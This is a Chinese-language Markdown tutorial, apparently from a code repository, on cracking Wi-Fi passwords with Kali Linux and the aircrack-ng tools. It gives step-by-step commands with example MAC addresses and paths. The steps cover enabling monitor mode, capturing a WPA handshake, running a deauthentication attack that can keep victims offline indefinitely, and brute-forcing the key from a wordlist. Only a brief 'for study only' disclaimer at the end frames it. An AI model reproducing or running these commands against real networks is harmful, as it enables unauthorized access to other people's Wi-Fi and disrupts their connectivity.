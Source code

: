 # Kali使用抓包网卡破解wifi密码

- 查看当前的网卡信息
```
ifconfig
```
- 查看支持监听的网卡
```
airmon-ng
```
- 在启动网卡的监听模式之前一定要杀死进程，否则将会监听不到附近的WiFi，执行下面命令杀死进程
```
airmon-ng check kill
```
![09c87be609c764eb129e22dad68f66ff](https://github.com/user-attachments/assets/966e3eb0-d0d1-4628-83da-47876de9158d)  

- 激活无线网卡的监听模式
```
airmon-ng start wlan0
```
![b69c30b8f5a543c7e180178bfb936677](https://github.com/user-attachments/assets/6b701055-4251-4d4c-8fdb-b9e219e6cc67)  

- 扫描当前周边环境的WiFi信号
网卡型号和驱动不同命令也不同  
```
airodump-ng wlan0
```
或者
```
airodump-ng wlan0mon
```
开启网卡的监听模式之后，执行命令监听附近WIFI信息，监听到需要的信息之后ctrl+c停止  
![303c6e53dcc482d4a03f5c9b969e3e1c](https://github.com/user-attachments/assets/6ca731fa-15d1-4815-b45a-ba05eeef3497)  

- 根据自己的情况进行替换
  - 先启用抓包命令
  ```
  airodump-ng -c <无线网络的信道号> –bssid <目标路由器Mac地址> -w <保存的路径/文件名> <无线网卡接口>
  ```
  示例：
  ```
  airodump-ng -c 11 –bssid 60:32:B1:56:3F:B2 -w /home/lingdu/桌面/handshake wlan0
  ```
  对上述参数的解释  
  <pre>
    1.-c:接的是上图中的CH，代表信道。
    2.--bssid:路由器的MAC地址。
    3.PWR:信号强度，数值越大代表信号越强。
    4.ENC：使用的加密方式。
    5.AUTH：代表认证方式。
    6.ESSID：代表WIFI名字。
    7.-w ~/wlan0mon:将抓取的流量包保存到根目录下并命名为wlan0mon。
  </pre>
  - ACK 死亡攻击：
  ```
  aireplay-ng -0 <攻击次数> -a <目标路由器Mac地址> -c <要攻击的目标Mac地址> <无线网卡接口>
  ```
  示例
  ```
  aireplay-ng -0 10 -a 60:32:B1:56:3F:B2 -c F0:72:EA:E8:72:21 wlan0
  ```
  <pre>
    -0 表示发起默认的攻击，之后接的数字代表攻击次数，上图是攻击10次，如果想进行断网攻击就只用填写0，默认一直攻击。
    -a 指定的无线路由器的BSSID
    -c 指定断开连接的用户的MAC地址（上图中为STATION）
  </pre>

暴力破解命令：  
```
aircrack-ng -w <密码本文件路径/passwd.txt> -b <目标路由器Mac地址> <抓包文件路径/handshake-0*.cap>
```
示例：  
```
aircrack-ng -w /home/lingdu/桌面/password.txt -b 60:32:B1:56:3F:B2 /home/lingdu/桌面/handshake-0*.cap
```
善用技术，遵纪守法，此文仅供学习参考!!!
